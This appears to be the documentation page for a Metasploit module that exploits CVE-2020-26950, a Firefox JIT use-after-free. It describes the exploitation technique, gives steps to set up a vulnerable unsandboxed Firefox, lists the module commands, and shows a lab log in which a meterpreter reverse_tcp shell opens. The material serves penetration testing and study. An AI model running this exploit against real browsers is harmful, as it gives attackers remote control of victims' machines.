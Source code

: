 ## Vulnerable Application

This modules exploits CVE-2020-26950, a use after free exploit in Firefox.
The MCallGetProperty opcode can be emitted with unmet assumptions resulting
in an exploitable use-after-free condition.

This exploit uses a somewhat novel technique of spraying ArgumentsData
structures in order to construct primitives. The shellcode is forced into
executable memory via the JIT compiler, and executed by writing to the
JIT region pointer.

This exploit does not contain a sandbox escape, so firefox must be run
with the MOZ_DISABLE_CONTENT_SANDBOX environment variable set, in order
for the shellcode to run successfully.

This vulnerability affects Firefox < 82.0.3, Firefox ESR < 78.4.1, and
Thunderbird < 78.4.2.

**Vulnerable Application Installation Steps**

You can download and run a vulnerable firefox version on Linux with the following commands:
```
wget https://ftp.mozilla.org/pub/firefox/releases/79.0/linux-x86_64/en-US/firefox-79.0.tar.bz2
tar xvf firefox-79.0.tar.bz2
cd firefox
MOZ_DISABLE_CONTENT_SANDBOX=1 ./firefox
```

## Verification Steps

1. Do: `use exploit/linux/browser/firefox_jit_use_after_free
2. Do: `set URIPATH / [PATH]`
3. Do: `set LHOST [IP]`
4. Do: `set SRVHOST [IP]`
5. Do: `exploit`

## Options

### DEBUG_EXPLOIT

Show debug information during exploitation.  This will display details of the exploit during exploitation, which is useful for debugging.

## Scenarios

### Ubuntu 18 and Firefox 79.0 with MOZ_DISABLE_CONTENT_SANDBOX=1 and DEBUG_EXPLOIT enabled

Start Firefox without a sandbox, e.g:
`MOZ_DISABLE_CONTENT_SANDBOX=1 ./firefox`

```
msf6 > use exploit/linux/browser/firefox_jit_use_after_free
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/browser/firefox_jit_use_after_free) > set URIPATH /
URIPATH => /
msf6 exploit(linux/browser/firefox_jit_use_after_free) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/browser/firefox_jit_use_after_free) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf6 exploit(linux/browser/firefox_jit_use_after_free) > set DEBUG_EXPLOIT true
DEBUG_EXPLOIT => true
msf6 exploit(linux/browser/firefox_jit_use_after_free) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/browser/firefox_jit_use_after_free) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.1     firefox_jit_use_after_free - Sending / to Mozilla/5.0 (X11; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
[*] 192.168.56.1     firefox_jit_use_after_free - [+] got the corrupted array 16384
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Leaked nursery location: 4aee8a4f6d8
[*] 192.168.56.1     firefox_jit_use_after_free - [+] AD location: 7f27fb9cc000
[*] 192.168.56.1     firefox_jit_use_after_free - [+] AB Location: 7f27e7200000
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Function is at: 10d4c755fac0
[*] 192.168.56.1     firefox_jit_use_after_free - [+]   jitinfo: 10d4c7564150
[*] 192.168.56.1     firefox_jit_use_after_free - [+]   RX Region: 3774356d0e50
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Shellcode start: 3774356d1030
[*] 192.168.56.1     firefox_jit_use_after_free - [*] Triggering...
[*] Sending stage (3020772 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:34946 ) at 2022-02-16 08:18:11 +0000
```
